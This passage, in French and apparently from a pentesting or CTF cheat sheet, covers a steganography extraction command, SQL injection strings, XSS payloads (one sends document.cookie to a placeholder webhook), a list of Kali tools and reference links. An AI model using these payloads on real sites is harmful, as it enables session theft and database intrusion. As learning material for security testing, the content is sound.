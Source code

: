 ```bash
outguess -k "password" -r output.jpg secret.txt
```

## 9. Exploitation Web

### Injection SQL

#### Input Box Non-String

```sql
1 or 1=1-- -
```
#### Input Box String

```sql
1' or '1'='1'-- -
```

### Injection XSS 

#### Classique

```html
<script>alert('XSS')</script>
```
#### Redirection

```html
<script>window.location.href="{tonlienwebhook&var}".concat(document.cookie)</script>
```


## 10. Outils Kali Linux

- **Burp Suite** : Interception des requêtes HTTP.
    
- **[Sqlmap](Outils/SqlMAP.md)** : Détection et exploitation des injections SQL.
    
- **Metasploit** : Exploitation automatique de vulnérabilités.
    
- **Nikto** : Scan des failles web.
    
- **Dirb** : Recherche de répertoires cachés.

## 11. Ressources utiles

- [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/)

- [OWASP](https://owasp.org/www-project-top-ten/#)

- [NIST](https://www.nist.gov/)

- [MITRE ATT&CK®](https://attack.mitre.org/)

- [Clusif](https://clusif.fr/)
